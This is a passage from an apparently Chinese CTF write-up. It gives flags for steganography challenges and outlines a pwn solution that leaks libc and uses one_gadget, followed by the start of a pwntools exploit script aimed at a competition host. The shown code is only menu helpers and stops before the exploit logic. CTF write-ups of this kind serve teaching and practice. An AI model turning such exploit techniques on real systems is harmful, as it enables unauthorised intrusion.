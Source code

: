 得到`flag{i_am_very_sad_233333333333}`

## 强网先锋-打野

一张 bmp 图片，使用 zsteg 爆破出来 LSB 隐写`b1,msb,bY: qwxf{you_say_chick_beautiful?}`

## 强网先锋-AP

泄漏 puts 地址，查找 libc 版本为`libc6_2.23-0ubuntu10_amd64`,然后打 one_gadget。

```python
#!/usr/bin/env python2

from pwn import *
#from FILE import *

#context.log_level = 'debug'
context.terminal = ['terminator', '-e']
context.arch = ['amd64','x86_32'][0]

filename = "./task_main"
glibc_version = '2.24'
address = {'address': '117.78.60.139', 'port': 30600}
elf = ELF(filename)
libc = ELF('/home/{}/libc.so.6'.format(glibc_version))
def attach(p, breaks=[]):
    if args['REMOTE']:
        return
    gdb.attach(p, '\n'.join(["b *%s"%(x,) for x in breaks]))
if args['REMOTE']:
    p = remote(address['address'], address['port'])
else:
    p = process([filename])

def GET(length,name):
    p.recvuntil(">>")
    p.sendline("1")
    p.recvuntil("name:")
    p.sendline(str(length))
    p.recvuntil("name:")
    p.sendline(str(name))

def OPEN(idx):
    p.recvuntil(">>")
    p.sendline("2")
    p.recvuntil("?")
    p.sendline(str(idx))
    p.recvuntil("!")
    p.recvuntil("\n")
    return p.recvuntil("\n")[:-1]


def CHANGE(idx,length,name):
    #p.interactive()
    p.recvuntil(">>")
    p.sendline("3")
    p.recvuntil("?")
    p.sendline(str(idx))
    p.recvuntil("name:")
    p.sendline(str(length))
    p.recvuntil("name:")
    p.send(str(name))

def main():
```